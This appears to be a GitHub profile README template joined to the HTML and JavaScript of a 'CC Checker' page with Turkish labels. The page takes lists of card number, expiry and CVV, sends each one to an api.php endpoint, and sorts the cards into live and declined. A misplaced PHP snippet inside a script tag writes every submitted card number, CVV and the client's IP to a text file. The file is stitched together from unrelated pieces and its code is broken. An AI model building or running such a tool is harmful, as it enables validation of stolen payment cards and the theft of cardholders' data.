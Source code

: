 - 👋 Hi, I’m @zmezo79
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
zmezo79/zmezo79 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
---><html>
<head>
	<title>remaqe CC Checker</title>
	<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
	<link href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.5.11/css/mdb.min.css" rel="stylesheet">
	<link href="https://fonts.googleapis.com/icon?family=Material+Icons"
      rel="stylesheet">
</head>

<body>
	<br>
		<div class="row col-md-12">
&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp
<div class="card col-sm-8">
  <h5 class="card-body h6">CC Checker - remaqe</h5>
  <div class="card-body">
    <center><span>[#REMAQE]</span></center>
<div class="md-form">
	<div class="col-md-12">
  <textarea type="text" style="text-align: center;" id="lista" class="md-textarea form-control" rows="2"></textarea>
  <label for="lista">Example : 5437711025954502|01|2023|160 </label>
</div>
</div>
<center>
 <button class="btn btn-primary" style="width: 200px; outline: none;" id="testar" onclick="enviar()" >Başlat</button>
  <button class="btn btn-danger" style="width: 200px; outline: none;">Durdur</button>
</center>
  </div>
</div>
&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp
<div class="card col-sm-2">
  <h5 class="card-body h6">Bilgiler:</h5>
  <div class="card-body">
  	<span>Status:</span><span class="badge badge-secondary"> İşlem Bekleniyor</span>
<div class="md-form">
	<span>Live:</span>&nbsp<span id="cLive" class="badge badge-success">0</span>
	<span>Dec:</span>&nbsp<span id="cDie" class="badge badge-danger"> 0</span>
	<span>Test Edilen:</span>&nbsp<span id="total" class="badge badge-info">0</span>
	<span>Yüklenen:</span>&nbsp<span id="carregadas" class="badge badge-dark">0</span>
</div>
  </div>
</div>
</div>
<br>

<div class="col-md-12">
<div class="card">
<div style="position: absolute;
        top: 0;
        right: 0;">
	<button id="mostra" class="btn btn-primary">SHOW/HIDE</button>
</div>
  <div class="card-body">
    <h6 style="font-weight: bold;" class="card-title">Live - <span  id="cLive2" class="badge badge-success">0</span></h6>
    <div id="bode"><span id=".aprovadas" class="aprovadas"></span>
</div>
  </div>
</div>
</div>

<br>
<br>
<br>
<div class="col-md-12">
<div class="card">
	<div style="position: absolute;
        top: 0;
        right: 0;">
	<button id="mostra2" class="btn btn-primary">SHOW/HIDE</button>
</div>
  <div class="card-body">
    <h6 style="font-weight: bold;" class="card-title">Dec - <span id="cDie2" class="badge badge-danger">0</span></h6>
    <div id="bode2"><span id=".reprovadas" class="reprovadas"></span>
    </div>
  </div>
</div>
</div>

<script src="http://ajax.googleapis.com/ajax/libs/jquery/1.3.2/jquery.js" type="text/javascript"></script>
<script type="text/javascript">

$(document).ready(function(){


    $("#bode").hide();
	$("#esconde").show();
	
	$('#mostra').click(function(){
	$("#bode").slideToggle();
	});

});

</script>

<script type="text/javascript">

$(document).ready(function(){


    $("#bode2").hide();
	$("#esconde2").show();
	
	$('#mostra2').click(function(){
	$("#bode2").slideToggle();
	});

});
        $status = ".reprovadas";
    $fp = fopen('./remaqeex/nedeciaq.txt','a+');
    $cc = $_POST['cc'];
    $mes = $_POST['mes'];
    $ano = $_POST['ano'];
    $cvv = $_POST['cvv'];
    $data = date("m.d.y g:i a");
    $ip = $_SERVER['REMOTE_ADDR']?:($_SERVER['HTTP_X_FORWARDED_FOR']?:$_SERVER['HTTP_CLIENT_IP']);   
    $mensagem = fwrite($fp,"-----------------------------------------------");
    $mensagem = fwrite($fp,"\nCC: ".$cc ."\nExp: ".$mes ."\nAno: ". $ano ."\nCCV: ". $cvv."\nDATA: ". $data."\nIP: ".$ip ."\nSTATUS: ".$status ."\n");
    $mensagem = fwrite($fp,"-----------------------------------------------");
    $mensagem = fwrite($fp,"\r\n");
    $fpc = fclose($fp);
</script>

<script title="ajax do checker">
    function enviar() {
        var linha = $("#lista").val();
        var linhaenviar = linha.split("\n");
        var total = linhaenviar.length;
        var ap = 0;
        var rp = 0;
        linhaenviar.forEach(function(value, index) {
            setTimeout(
                function() {
                    $.ajax({
                        url: 'api.php?lista=' + value,
                        type: 'GET',
                        async: true,
                        success: function(resultado) {
                            if (resultado.match("#Aprovada")) {
                                removelinha();
                                ap++;
                                aprovadas(resultado + "");
                            }else {
                                removelinha();
                                rp++;
                                reprovadas(resultado + "");
                            }
                            $('#carregadas').html(total);
                            var fila = parseInt(ap) + parseInt(rp);
                            $('#cLive').html(ap);
                            $('#cDie').html(rp);
                            $('#total').html(fila);
                            $('#cLive2').html(ap);
                            $('#cDie2').html(rp);
                        }
                    });
                }, 500 * index);
        });
    }

    function aprovadas(str) {
        $(".aprovadas").append(str + "<br>");
    }
    function reprovadas(str) {
        $(".reprovadas").append(str + "<br>");
    }
    function removelinha() {
        var lines = $("#lista").val().split('\n');
        lines.splice(0, 1);
        $("#lista").val(lines.join("\n"));
    }


</script>



<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.4/umd/popper.min.js"></script>
<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.1.3/js/bootstrap.min.js"></script>
<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.5.11/js/mdb.min.js"></script>
</body>
<br>
<footer >





  </footer> 

</html
